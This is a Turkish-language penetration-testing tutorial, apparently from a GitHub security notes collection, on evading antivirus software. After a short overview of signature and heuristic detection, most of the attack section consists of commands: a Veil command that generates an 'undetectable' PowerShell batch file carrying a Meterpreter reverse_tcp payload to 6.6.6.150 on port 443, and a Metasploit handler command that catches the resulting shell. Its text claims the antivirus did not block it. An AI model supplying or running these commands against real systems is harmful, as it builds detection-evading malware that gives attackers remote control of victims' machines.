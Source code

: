 ### Antivirüs Uygulamalarını Atlatma

#### Antivirus Bypass Teknikleri ve Tanınmaz Meterpreter Ajanı Oluşturma

Pentest çalışmalarında, hedef sistemi ele geçirdikden sonra yetkisiz işlevleri yerine getirecek bir payload'a ihtiyaç duyulur. Bu bir casus yazılım olabilir (trojan), uzakdan yönetim aracı olabilir (rat) veya hedef sistemde kod/komut çalıştırmanıza olanak sağlayan bir araç  (shellcode exec) olabilir.

__Antivirüsler Nasıl Çalışır?__

* İmza tabanlı (Signature Based)
* ShellCode Analizi
* Sezgisel (heuristic)

__İmza tabanlı (Signature Based)__

* Her imza bir zararlının karakteristik özelliklerini barındırır.
* Tespit edilmiş viruslere ait imzaları içerir.
* Hızlı sonuç verir.
* Yeni nesil viruslere karşı savunmasızdır.
* Zararlının tespit edilmesi, veritabanına konulması ve son kullanıcıya ulaşması yeni nesil tehtitler karşısında ciddi zaman kaybı yaşatmakdadır.

__Sezgisel (heuristic)__

* Zararlıyı, sezgisel ve gerçek zamanlı davranış analizi yaparak tespit etmeye çalışır.

#### Veil kullanarak Sızma Testlerinde Antivirüs Atlatma 
___

Penetrasyon testlerinde sıklıkla antivirus uygulamalarının atlatılması ihtiyacı doğmaktadır. Çeşitli encoding yöntemleri kullanılarak antivirus yazılımları atlatılabilmektedir. Msfpayload, Msfencode, Msfvenom benzeri yazılımlar ile istenilen özelliklerde zararlı yazılım üretmek mümkündür. Aşağıda bunlara alternatif ve oldukça başarılı bir uygulama olan VEIL ile bu işlemin nasıl gerçekleştirilebileceğine değinilmiştir.

Windows işletim sistemleri üzerinde çalışan antiviruslere yakalanmayan batch file oluşturmak için aşağıda ki ilgili komutları çalıştırması yeterlidir. 6.6.6.150 ipsine 443 portu üzerinden reverse bağlantı kurarak erişim sağlanacaktır.

Öncelikle aşağıdaki komut kullanılarak batch file oluşturulabilir. İlgili komut çalıştırıldıktan sonra .bat uzantılı zararlı uygulamamız oluşmuş olacaktır.

```ShellSession
root@kali:#  veil -l powershell -p VirtualAlloc -o undetectable --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=6.6.6.150 LPORT=443
```

![ANTIVIRUS](../resim/ataklar/antivirus/1.png)

![ANTIVIRUS](../resim/ataklar/antivirus/2.png)

Windows üzerinde batch dosyasını çalıştırmadan önce lokal makinamızda 443 portu metasploit ile dinleme moduna alıyoruz.

Aşağıdaki komut ile  443 portunun dinleme moduna alınması sağlanmıştır. Payload olarak reverse_tcp kullanılmıştır.

```ShellSession
root@kali:#  msfcli exploit/multi/handler PAYLOAD=windows/meterpreter/reverse_tcp LHOST=6.6.6.150 LPORT=443 E
```

![ANTIVIRUS](../resim/ataklar/antivirus/3.png)

Windows üzerinde undetectable.bat dosyamızı çalıştırıyoruz. Çalıştırmamızla birlikle meterpreter shell bizi karşılıyor.

![ANTIVIRUS](../resim/ataklar/antivirus/4.png)

Zararlının çalıştırıldığı sistem üzerindeki antivirüsün zararlıyla ilgili herhangi bir bloklama işlemi gerçekleştirmediği aşağıda görülebilmektedir.

![ANTIVIRUS](../resim/ataklar/antivirus/5.png)

Bu şekilde antivirüs atlatılarak mevcut sisteme en üst seviyede erişim sağlanmış olacaktır. 

[KAYNAK](http://blog.bga.com.tr/2014/02/veil-kullanarak-szma-testlerinde.html)

##### DAHA FAZLASI İÇİN

* [Antivirüs Programları Nasıl Çalışır?](http://www.elektrikport.com/teknik-kutuphane/antivirus-programlari-nasil-calisir/11475)
* [Kendi Backdoor'unuzu Oluşturun](http://onuraktas.net/kendi-backdoorunuzu-olusturun/)
* [Antivirüs Atlatma(Bypass)](https://www.youtube.com/watch?v=jGbV9c26N5k)
